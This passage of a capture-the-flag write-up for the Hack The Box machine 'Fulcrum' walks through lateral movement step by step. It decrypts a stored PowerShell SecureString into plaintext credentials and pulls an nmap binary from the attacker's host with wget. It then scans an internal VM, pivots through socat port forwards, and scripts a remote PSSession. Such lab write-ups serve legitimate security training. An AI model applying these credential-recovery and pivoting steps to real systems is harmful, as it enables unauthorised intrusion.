 It does have the encrypted password as mentioned but i dont think it would be that hard to decypt it

We would just need to add this line to it and decrypt 
```
(New-Object System.Management.Automation.PSCredential 'N/A', $4).GetNetworkCredential().Password
```
We get the Username and Password as 


> Username : WebUser | Password : M4ng£m£ntPa55

We gotta find the upload.fulcrum.local

```
arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.122.228          ether   52:54:00:74:9d:17   C                     virbr0
10.10.10.2               ether   00:50:56:aa:9c:8d   C                     ens32
```

Lets upload a [nmap static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) and scan 192.168.122.228 for open ports 

```
wget http://10.10.14.99/nmap

chmod 777 nmap

./nmap -v -p- 192.168.122.228
PORT     STATE SERVICE
80/tcp   open  http
5986/tcp open  unknown
8080/tcp open  http-alt
```

That 5986 port looks familiar!!

That ip is the upload.fulcrum.local !!

I prefer using powershell from windows, instead of porting something to the linux machine or using some kind of script

So lets do some port forwading and get a powershell session! :smile:
* Steps
    * Download a [socat static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)
    * Move it to the vm ``` upload socat ```
    * Port forward 5986 from upload.fulcrum.local ``` ./socat tcp-listen:5986,reuseaddr,fork tcp:192.168.122.228:5986```
    * Portforward te 5986 from the remote machine to the local kali machine ``` socat tcp-listen:5986,reuseaddr,fork tcp:10.10.10.62:5986 ```
    * Check on the kali machine if the portforwarding works ``` nc -nv 127.0.0.1 5986 ```
    * *The widows machine and the kali machine should be in the same network for this to work*
    

Create a script on the windows machine which would give us a PSSession
```
$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA='
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)
$a = New-PSSessionOption -SkipCACheck -SkipCNCheck
Enter-PSSession -Computer 192.168.1.41 -P 5986 -Credential $5 -UseSSL -SessionOption $a
```

